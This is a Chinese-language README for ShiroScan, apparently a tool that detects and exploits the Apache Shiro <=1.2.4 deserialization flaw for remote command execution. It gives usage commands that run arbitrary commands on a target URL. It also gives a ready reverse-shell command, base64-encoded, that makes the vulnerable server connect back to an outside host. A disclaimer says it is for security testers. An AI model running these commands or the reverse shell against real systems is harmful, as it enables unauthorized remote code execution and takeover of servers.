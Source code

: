 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

```
集成21个key进行fuzz
```

如果有帮助，请点个star哦，blog：www.svenbeast.com
    
    pip3 install -r requirments.txt     

    Usage：python3 shiro.py  url  command

    Usage：python3 shiro.py  http://url.com  whoami

http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
执行的命令带空格记得用""引起来

    usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
    
7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
请自行收集编码，在moule下的源代码中自行添加方法即可

反弹shell命令：

    python3 shiro_rce.py http://2.2.2.2:8180 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40Lzg5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"
解析：

    http://2.2.2.2:8180 为存在漏洞的网址

    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40Lzg5OTkgMD4mMQ==}|{base64,-d}|{bash,-i} 为需要执行的命令

可以使用这个网址在线生成：http://www.jackson-t.ca/runtime-exec-payloads.html

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞

Windows安装Crypto，可以直接使用下面的命令：

    pip install crypto pycryptodome
    pip uninstall crypto pycryptodome
    pip install pycryptodome

而如果你是linux环境，则直接安装pycryptodome即可：

    pip install pycryptodome
